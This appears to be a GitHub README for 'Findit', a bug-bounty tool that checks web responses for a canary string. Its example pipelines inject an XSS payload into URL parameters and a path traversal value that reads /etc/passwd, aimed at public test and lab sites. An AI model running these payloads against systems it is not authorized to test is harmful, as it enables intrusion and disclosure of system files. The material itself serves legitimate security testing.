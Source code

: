 # Findit

Findit is a tool used to parse a canary value from a web request.  
This is useful in bugbounties when you want to find a return value from a list of URL's.  
Think xss, ssti, sqli etc. 


## Install 

```
go install github.com/AssassinUKG/findit@latest
```

## Usage

```
cat URLsFile.txt | findit -c "alert(0)"
```

## Screenshot

![image](https://user-images.githubusercontent.com/5285547/178983196-1aa64236-4541-4d93-9b8f-2465394d88da.png)

---
## Example usages

XSS 

```
echo http://testphp.vulnweb.com/ | waybackurls | grep "=" | egrep -iv ".(jpg|jpeg|gif|css|tif|tiff|png|tff|woff|woff2|icon|pdf|svg|txt|js)" | uro | qsreplace '"><img src=x onerror=alert(1);>' | findit -c "alert(0)"
```

/etc/passwd
> Example to find /etc/passwd, on one url 

```
echo "https://0aa9003403a40852c028b1270079009b.web-security-academy.net/image?filename=" | qsreplace "../../../../etc/passwd" | findit -c "root:x"
```

![image](https://user-images.githubusercontent.com/5285547/178974785-cbbab50c-bd6e-4a4e-ae7d-822ba3ca46f6.png)
---

## Bug Tools (easy install) 

qsreplace

```
go install github.com/tomnomnom/qsreplace@latest
```

waybackurls

```
go install github.com/tomnomnom/waybackurls@latest
```

gau

```
go install github.com/lc/gau/v2/cmd/gau@latest
```

uro 

```
pip3 install uro
```


